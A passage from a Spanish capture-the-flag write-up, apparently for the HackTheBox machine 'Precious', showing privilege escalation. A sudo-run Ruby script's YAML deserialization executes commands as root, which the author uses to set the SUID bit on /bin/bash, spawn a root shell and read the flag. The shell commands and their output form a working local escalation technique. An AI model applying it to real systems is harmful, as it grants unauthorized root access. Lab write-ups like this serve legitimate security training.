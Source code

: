 Ahora si todo sale bien, se debería de ejecutar el comando `id` que es el que está en el campo `git_set`

```shell
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
....
```

Y podemos ver que se ejecuta.

Ahora solo falta cambiar el comando que queremos ejecutar en el archivo `dependencies.yml`
![Write-up Image](images/Screenshot_6.png)

```shell
henry@precious:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Ahora ejecutamos el script...
```shell
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```shell
henry@precious:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:/tmp$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry
```
Y ya nos hemos convertido en `root`.

Y podríamos leer la flag.
```shell
bash-5.1# cat /root/root.txt
57c37a02615a95fcde....
```

¡Y ya estaría!

Happy Hacking! 🚀